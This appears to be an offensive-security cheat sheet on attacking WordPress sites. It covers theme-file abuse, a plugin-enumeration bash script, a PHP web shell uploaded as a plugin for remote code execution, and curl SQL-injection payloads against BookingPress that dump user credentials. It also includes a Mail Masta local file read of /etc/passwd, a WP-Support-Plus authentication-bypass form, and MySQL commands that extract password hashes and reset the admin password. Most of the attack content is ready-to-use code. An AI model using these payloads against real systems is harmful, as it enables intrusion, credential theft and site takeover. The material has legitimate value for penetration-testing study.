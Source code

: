 # Wordpress

## Basic Information

### Themes files

They're located at `/wp-content/themes/` so if you gain access to the WordPress Admin panel, you can modify **404.php** of some theme, and then go to `/wp-content/themes/twentytwenty/404.php`

#### Main WordPress files

| File          | Description                                                                                                                                                                                                  |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| wp-config.php | Here you can find the root password of the database                                                                                                                                                          |
| xmlrpc.php    | File that represents a feature that enables data to be transmited by HTTP with XML mechanism. You can use this [script](https://github.com/notlucken/xmlrpc\_bruteforce/) to bruteforce users and passwords. |
| license.txt   | Userful information like the version of WordPress                                                                                                                                                            |

## Plugins Enumeration

To identify plugins of a Wordpress site, we can use a Script created by S4vitar but I improved it and uploaded to GitHub:

[Enumerate WordPress Plugins](https://github.com/notlucken/enumWordpressPlugins)

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "[!] Exiting..."
  exit 1
}


#Ctrl + C
trap ctrl_c INT

declare -i c=0

function readPlugins(){

  url=$1
  echo -e "\n[!] These are the plugins of $1:\n"
  echo -n "[+] "; curl -s -X GET "$url" | grep -oP '/plugins/\K[^.*/]+' | sort -u 
}

function helPanel(){
  echo -e "\n[i] Use\n"
  echo -e "\nh) Show this panel\n"
  echo -e "\nf) URL\n"
}

while getopts "hf:" arg; do
  case $arg in
    h) ;;
    f) url=$OPTARG; let c+=1;;
  esac
done

if [ $c -eq 1 ]; then
  readPlugins "$url"
else
  helPanel
fi
```

The usage is simple, only do a `chmod +x enumWordPressPlugins.sh` and later \`\`./enumWordpressPlugins.sh

## Plugin Explotations

#### PHP Plugin to RCE

Depending on the plugin, we can upload a .php file as a plugin.

```php
<?php system($_GET['cmd']); ?>
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

You will see an error, but if we go to media:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Access it to see the link:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### BookingPress < 1.0.11 - Unauthenticated SQL Injection

The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress\_front\_get\_category\_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection

You need to search for the `wponce=<ID>` in a page, in order to make the exploit work:

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<ID>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

To dump users and their passwords:

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<ID>&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,NULL,NULL,NULL,NULL,NULL,NULL from wp_users-- -'
```

### Mail Masta 1.0.0 - Local File Read

We can read files from the machine if this plugin is installed.

```bash
curl -s -X GET "http://<IP>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

### WP-Support-Plus-Responsive Ticket System < 7.1.3 - Privilege Escalation

You can login as anyone without knowing password because of incorrect usage of wp\_set\_auth\_cookie().

You need to know at least one username.

```txt
<form method="post" action="http://<IP>/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

Then you need to enable a SimpleHTTPServer to exploit.

## Post Explotation

If we can see the username and password of MySQL database, we can use this command to extract usernames and passwords

```bash
mysql -u <USERNAME> --password=<PASSWORD> -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Or we can change admin password

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('12345678') WHERE ID = 1;"b
```

